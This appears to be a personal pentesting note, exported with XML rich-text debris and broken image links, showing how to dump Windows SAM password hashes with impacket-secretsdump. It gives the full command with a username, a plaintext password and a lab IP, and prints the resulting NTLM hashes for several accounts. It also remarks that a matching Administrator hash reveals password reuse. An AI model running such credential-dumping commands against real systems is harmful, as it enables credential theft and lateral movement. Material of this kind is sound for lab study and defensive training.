



# dumping Sam hashes using Secretsdump.py

<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text>

</rich_text><rich_text foreground="#33d17a">u can dump a lot of things such as ntds , sam , lsa , ...etc</rich_text><rich_text>

impacket-secretsdump Boss/cozimaki:'MYp@$$w0rd!'@192.168.225.129

</rich_text><rich_text justification="left"></rich_text><rich_text>

</rich_text><rich_text justification="left"></rich_text></node>

## result

<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text>*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Frank Castel:1001:aad3b435b51404eeaad3b435b51404ee:2faf5f4a6e588f18f1f84616da5ba9a7:::

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Alice:1001:aad3b435b51404eeaad3b435b51404ee:4039730e1bf6e10dd01eaac983db4d7c:::

</rich_text><rich_text foreground="#33d17a">Notice that administrator hash is the same on the other machine , means administrators password are the same.</rich_text><rich_text>

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Frank Castel:1001:aad3b435b51404eeaad3b435b51404ee:2faf5f4a6e588f18f1f84616da5ba9a7:::
Alice:1001:aad3b435b51404eeaad3b435b51404ee:4039730e1bf6e10dd01eaac983db4d7c:::

</rich_text></node>

